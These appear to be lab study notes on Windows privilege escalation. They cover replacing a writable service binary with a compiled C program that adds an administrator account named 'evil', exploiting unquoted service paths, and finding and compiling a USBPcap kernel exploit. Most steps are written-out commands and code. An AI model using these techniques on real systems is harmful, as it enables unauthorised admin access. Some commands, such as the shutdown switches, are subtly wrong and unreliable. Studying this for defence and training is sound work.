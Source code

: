 Enumeration, Paths, Services....

### Insecure File permission 
system service binary has insecure permission, we can replace the binary, when the system reboot, the malicious binary will be executed with root permission  

### Use powershell to list running servicis 
```
Get-WmiObject win32_service | Select-Object Name, State, PathName | Where-Object {$_.State -like 'Running'}
```
Service stored in Program Files dir is more prone to have insecure permission 

### Ennumerate the permission of target service
```
icacls "C:\Program Files\Serviio\bin\ServiioService.exe"
```

### replace the binary with malicious binary  
```
#include <stdlib.h>
int main ()
{
    int i;
    i = system ("net user evil Ev!lpass /add");
    i = system ("net localgroup administrators evil /add");
}
```

cross compile it `i686-w64-mingw32-gcc adduser.c -o adduser.exe`  

```
move "C:\Program Files\Serviio\bin\ServiioService.exe" "C:\Program Files\Serviio\bin\ServiioService_original.exe"
move adduser.exe "C:\Program Files\Serviio\bin\ServiioService.exe"
```

### restart the service 
```
C:\Users\student> net stop Serviio
System error 5 has occurred.
Access is denied.
```
## check the start option of the service 
``
C:\Users\student>wmic service where caption="Serviio" get name, caption, state,
startmode
Caption Name StartMode State
Serviio Serviio Auto Running`
``

check if user can reboot the system 
```
C:\Users\student>whoami /priv
PRIVILEGES INFORMATION
----------------------
Privilege Name Description State
============================= ==================================== ========
SeShutdownPrivilege Shut down the system Disabled
SeChangeNotifyPrivilege Bypass traverse checking Enabled
SeUndockPrivilege Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
SeTimeZonePrivilege Change the time zone Disabled
```
disable means the privilege is not enabled for the running process, in our case whoami

## reboot the machine 
```
shutdown \r \t 0   
```
\r reboot, \t in 0 sec  


## log in with new evil account
```
rdesktop xx.xx.xx.xx -u evil -p `password` -g 1024x768 
```

check if the new user in admin group 
```
net localgroup Administrators
```



# Leveraging Unquoted service path  
can be used in lab 10.11.0.23  -u n00b -p lab

When using file/dir path contain spaces, the developer should make sure it is quoted
```
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe

move adduser.exe "C:\Program Files\My Program\My.exe"
```


# Windows Kernel Vulnerabilities: USBPcap Case Study 
determine the version and architecture
```
C:\> systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
OS Name: Microsoft Windows 7 Professional
OS Version: 6.1.7601 Service Pack 1 Build 7601
System Type: X86-based PC
```

try to find third-party driver vulnerabiliies first  

## enumerate the driver 
```
driverquery /v
```
/v for verbose output  
looking for third-party drivers

## search for exploit 
```
searchsploit USBPcap
```

## check the version of USBPCap
To begin, we will list the contents of the Program Files directory, in search of the USBPcap directory:  
```
cd "C:\Program Files"
dir 
type USBPcap.inf
```

## Compile C/C++ on windows
Use the client machine  
setup PATH environment variable 
```
C:\Program Files\mingw-w64\i686-7.2.0-posix-dwarf-rt_v5-rev1> mingw-w64.bat
gcc 41452.c -o exploit.exe
```






